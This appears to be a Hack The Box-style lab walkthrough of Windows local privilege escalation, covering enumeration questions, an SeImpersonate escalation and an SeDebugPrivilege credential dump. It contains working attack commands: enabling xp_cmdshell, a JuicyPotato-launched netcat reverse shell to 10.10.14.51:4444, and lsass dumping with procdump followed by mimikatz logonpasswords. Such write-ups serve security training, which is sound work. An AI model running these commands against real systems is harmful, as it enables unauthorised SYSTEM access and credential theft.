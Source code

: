 ## Situational Awareness

What is the IP address of the other NIC attached to the target host?
```bash
ipconfig /all
```
![image](https://github.com/user-attachments/assets/26cdad1b-236a-473e-82ae-f41dcf8cb1b6)

What executable other than cmd.exe is blocked by AppLocker?
```bash
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
![image](https://github.com/user-attachments/assets/96d197df-0e0b-41c9-8a1a-666803104a78)

## Initial Enumeration

What non-default privilege does the htb-student user have?

![image](https://github.com/user-attachments/assets/160484cc-3379-4ac9-b05e-c868d60fc714)

Who is a member of the Backup Operators group?

![image](https://github.com/user-attachments/assets/378109a5-9bc3-436e-8a14-44d38f2f5048)

![image](https://github.com/user-attachments/assets/7dfa0584-42a7-4864-8239-1f9da4be8983)

What service is listening on port 8080 (service name not the executable)?

![image](https://github.com/user-attachments/assets/2189cc24-c959-4bb2-bd3e-2314fa994898)

![image](https://github.com/user-attachments/assets/7de6243b-c79d-435f-bafb-18d24a061729)

What user is logged in to the target host?

![image](https://github.com/user-attachments/assets/8c88529d-7684-4b45-a2b2-8a5914d531da)

What type of session does this user have?

(Answer in above screenshot)

## Communication with Processes

What service is listening on 0.0.0.0:21? (two words)

![image](https://github.com/user-attachments/assets/33c0d126-0471-4ebd-9902-4ec45a4f8a3e)

![image](https://github.com/user-attachments/assets/d22868ff-a8c1-4a3a-9ccb-88265072aa78)

Which account has WRITE_DAC privileges over the \pipe\SQLLocal\SQLEXPRESS01 named pipe?

![image](https://github.com/user-attachments/assets/fd4ae87e-71bf-4a08-a30b-aea6980636b8)

## SeImpersonate and SeAssignPrimaryToken

Escalate privileges using one of the methods shown in this section. Submit the contents of the flag file located at c:\Users\Administrator\Desktop\SeImpersonate\flag.txt

Step 1 : Establish SQL Connection with mssqlclient.py

We connect to the target SQL server using mssqlclient.py with Windows authentication:
```bash
mssqlclient.py sql_dev@10.129.43.43 -windows-auth
```
Output:
```bash
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed database context to 'master'.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (130 19162)
```
Step 2: Enable xp_cmdshell

The xp_cmdshell stored procedure allows us to execute commands at the OS level. We enable it as follows:
```bash
SQL> enable_xp_cmdshell
```
Output:
```bash
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```
Step 3: Verify Current User Permissions

To understand our current privileges, we run:
```bash
SQL> xp_cmdshell whoami
```
Output:
```bash
nt service\mssql$sqlexpress01
```
We also check available privileges:
```bash
SQL> xp_cmdshell "whoami /priv"
```
Output:
```bash
SeImpersonatePrivilege        Impersonate a client after authentication    Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                     Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks             Enabled
SeCreateGlobalPrivilege       Create global objects                        Enabled
```
We have SeImpersonatePrivilege, which is exploitable using JuicyPotato.

Step 4: Launch JuicyPotato for Privilege Escalation

We use xp_cmdshell to launch a reverse shell using JuicyPotato:

```bash
SQL> xp_cmdshell "c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a \"/c c:\tools\nc.exe 10.10.14.51 4444 -e cmd.exe\" -t *"
```
Output:
```bash
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
[+] calling 0x000000000088ce08
```
We successfully escalated to NT AUTHORITY\SYSTEM and executed a reverse shell.

Step 5: Catch the Reverse Shell

On the attacker machine:
```bash
sudo nc -lnvp 4444
```
Output:
```bash
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
Step 6: Retrieve the Flag

Finally, we navigate to the Administrator's desktop and read the flag:
```bash
PS C:\Windows\system32> Get-Content c:\Users\Administrator\Desktop\SeImpersonate\flag.txt
```

## SeDebugPrivilege

Step 1: Verify SeDebugPrivilege is available
```bash
whoami /priv
```
Output:
```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeDebugPrivilege              Debug programs                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```
`SeDebugPrivilege` is available but disabled. Since we have this privilege, we can debug or dump process memory, including `lsass.exe`.

Step 2: Dump the memory of lsass.exe using Procdump

```bash
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
Output:
```bash
[22:32:24] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[22:32:25] Dump 1 writing: Estimated dump file size is 42 MB.
[22:32:25] Dump 1 complete: 42 MB written in 0.9 seconds
[22:32:26] Dump count reached.
```
We successfully dumped the memory of `lsass.exe` to a file called `lsass.dmp`

Step 3: Navigate to Mimikatz directory and launch it

```bash
cd C:\Tools\Mimikatz\x64
mimikatz.exe
```
Output:
```bash
.#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ##       > https://blog.gentilkiwi.com/mimikatz
```

Step 4: Configure Mimikatz to use the minidump file

```bash
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

![image](https://github.com/user-attachments/assets/609b3a2d-887b-4c8b-bb74-4b21deb9efa8)




